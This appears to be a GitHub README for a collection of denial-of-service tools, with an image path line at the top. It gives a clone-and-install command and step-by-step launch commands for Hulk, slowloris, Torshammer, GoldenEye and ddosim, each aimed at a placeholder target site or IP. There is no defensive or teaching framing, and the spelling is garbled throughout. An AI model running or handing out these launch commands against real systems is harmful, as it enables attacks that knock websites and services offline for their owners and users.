 # DDOS-ATTACK-Collection
## First Thanks For All Author Scrypt Gos Blase Ouer, And For More Info About Tools Please Red The REDME.ME in our Tools

## For Download and Setup Tool Copy the Command:-
**sudo git clone https://github.com/efxtv/DDOS-ATTACK-LINUX.git.git && cd DDOS-ATTACK-LINUX && pip install -r requirements.txt**

## Hulk-ATTACK :- 
**cd hulk && chmod +x * && python2 hulk.py YOUR_SITE_ATTACK**


## slowloris-ATTACK :- 
**cd slowloris && chmod +x * && python2 setup.py && python2 slowloris.py**

## Torshammer-ATTACK :-
**cd Torshammer && chmod +x * && python torshammer.py -t IP_TARGET  -r NUMBER_THRED -T**

## GoldenEye
**cd GoldenEye && chmod +x * && ./goldeneye.py url OPTIONS**

## ddosim-0.2
**cd ddosim-0.2 && chmod +x * && ./configure && make && make install && ./ddosim IP_TARGET**
